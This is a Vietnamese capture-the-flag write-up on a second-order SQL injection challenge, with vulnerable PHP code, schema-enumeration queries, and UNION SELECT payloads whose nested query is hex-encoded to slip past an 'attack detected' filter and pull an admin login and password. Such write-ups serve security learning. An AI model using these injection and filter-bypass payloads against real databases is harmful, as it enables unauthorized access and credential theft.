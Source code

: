 Những điều học được qua chall:

- Dạng thực thi sql mới: output của câu lệnh sql này là input của câu sql khác, ví dụ đoạn code như sau:

  ```php
  <?php  
      $id=$_GET['id'];
      $query="SELECT id,sec_code FROM users WHERE id='$id'";
  	if (!$result=mysql_query($query,$conn))  
          die("Error While Selection process :".mysql_error())
      $row = mysql_fetch_array($result, MYSQL_ASSOC);
      $query="SELECT username FROM users WHERE sec_code='".$row['sec_code']."'";
  ?>
  
  ```

- Để bypass filter của chall này, cần hex encode câu query thứ 2 và truyền vào query thứ nhất

- Một số câu truy vấn để exploit mysql database :

  ```mysql
  SELECT table_name FROM information_schema.tables;
  
  SELECT table_name FROM information_schema.tables
  WHERE table_schema = database();
  -- return  the name of all tables used
  
  SELECT COLUMN_NAME  
  FROM information_schema.columns  
  WHERE table_name='[table_name]'
  -- return name of column 
  ```

  

  Cách vượt qua challenge:

  - Đầu tiên thử inject kí tự đặc biệt ' vào input form, lưu ý cũng không nên thử ở form login( rút kinh nghiệm từ những bài trước), hiện ra thông báo lỗi nghĩa là có khả năng bị sql injection:

    > You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''''' at line 1

  - Thử input với query quen thuộc:

    ```mysql
    ' union select 1-- 
    ```

    (chú ý có dấu cách ở cuối câu, nếu không sẽ bị syntax error)

    ra kết quả:
    
    >[+] Requested login: ' union select 1-- -
>[+] Found ID: 1
    >[+] Email: jean@sqli_me.com

    Vậy ta đã biết string được truyền vào sau select chính là câu lệnh sql sẽ được thực hiện. Viết lại truy vấn như sau:
    
    ```mysql
' union select 'union select login,password from users-- -- 
    ```
    
     Tuy nhiên bị filter bypass, hiện thông báo attack detected, vậy ta hex encode query từ đoạn select trở đi rồi nhét trở lại query thứ nhất:
    
    ```mysql
    ' union select 0x2720756E696F6E2073656C656374206C6F67696E2C70617373776F72642066726F6D2075736572732D2D20-- 
    ```
    
    và ta có kết quả:
    
    >[+] Requested login: ' union select 0x2720756E696F6E2073656C656374206C6F67696E2C70617373776F72642066726F6D2075736572732D2D20-- 
    >[+] Found ID: admin
    >[+] Email: qs89QdAs9A

